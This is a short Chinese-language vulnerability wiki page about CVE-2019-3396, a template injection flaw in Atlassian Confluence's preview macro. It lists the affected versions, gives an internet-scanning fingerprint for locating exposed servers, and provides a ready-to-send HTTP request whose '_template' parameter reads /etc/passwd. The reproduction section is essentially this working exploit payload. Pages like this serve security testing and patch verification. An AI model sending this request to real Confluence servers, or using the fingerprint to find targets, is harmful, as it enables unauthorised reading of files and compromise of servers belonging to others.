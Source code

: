 # Atlassian Confluence preview SSTI模版注入漏洞 CVE-2019-3396

## 漏洞描述

Confluence是一个专业的企业知识管理与协同软件，常用于构建企业wiki。 利用该漏洞可以读取服务器上任意文件，进而可以包含恶意文件来执行代码。可能造成敏感信息泄露，服务器被控制等严重后果。

## 漏洞影响

<a-checkbox checked>Atlassian Atlassian Confluence < 6.6.12</a-checkbox></br>

<a-checkbox checked>Atlassian Atlassian Confluence 6.7.0-6.12.2</a-checkbox></br>

<a-checkbox checked>Atlassian Atlassian Confluence < 6.13.3</a-checkbox></br>

<a-checkbox checked>Atlassian Atlassian Confluence < 6.14.2</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ATLASSIAN-Confluence"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1630488806824-a8205673-933b-434b-8050-abcde3ef3e97.png)

发送请求包

```php
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 
Connection: close
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3670.0 Safari/537.36
Content-Type: application/json; charset=utf-8
Content-Length: 168

{"contentId":"786457","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc5","width":"1000","height":"1000","_template":"file:///etc/passwd"}}}
```